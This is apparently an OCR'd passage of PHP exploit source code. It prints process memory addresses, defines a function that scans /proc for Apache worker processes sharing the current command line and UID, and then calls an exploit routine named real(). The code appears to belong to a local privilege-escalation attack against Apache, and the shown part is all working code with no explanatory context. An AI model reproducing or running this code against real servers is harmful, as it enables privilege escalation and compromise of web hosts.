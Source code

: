 
        o('PID: ' . getmypid());
        o('Fetching addresses');

        foreach($addresses as $k => $a)
        {
            if(!is_array($a))
                $a = [$a];
            o('  ' . $k . ': ' . implode('-0x', array_map(function($z) {
                    return '0x' . dechex($z);
            }, $a)));
        }
        o('');

        return $addresses;
    }

    # Extracts PIDs of apache workers using /proc/*/cmdline and /proc/*/status,
    # matching the cmdline and the UID
    function get_workers_pids()
    {
        o('Obtaining apache workers PIDs');
        $pids = [];
        $cmd = file_get_contents('/proc/self/cmdline');
        $processes = glob('/proc/*');
        foreach($processes as $process)
        {
            if(!preg_match('#^/proc/([0-9]+)$#', $process, $match))
                continue;
            $pid = (int) $match[1];
            if(
                !is_readable($process . '/cmdline') ||
                !is_readable($process . '/status')
            )
                continue;
            if($cmd !== file_get_contents($process . '/cmdline'))
                continue;

            $status = file_get_contents($process . '/status');
            foreach(explode("\n", $status) as $line)
            {
                if(
                    strpos($line, 'Uid:') === 0 &&
                    preg_match('#\b' . posix_getuid() . '\b#', $line)
                )
                {
                    o('  Found apache worker: ' . $pid);
                    $pids[$pid] = $pid;
                    break;
                }

            }
        }
        
        o('Got ' . sizeof($pids) . ' PIDs.');
        o('');

        return $pids;
    }

    $addresses = get_all_addresses();
    $workers_pids = get_workers_pids();
    real();
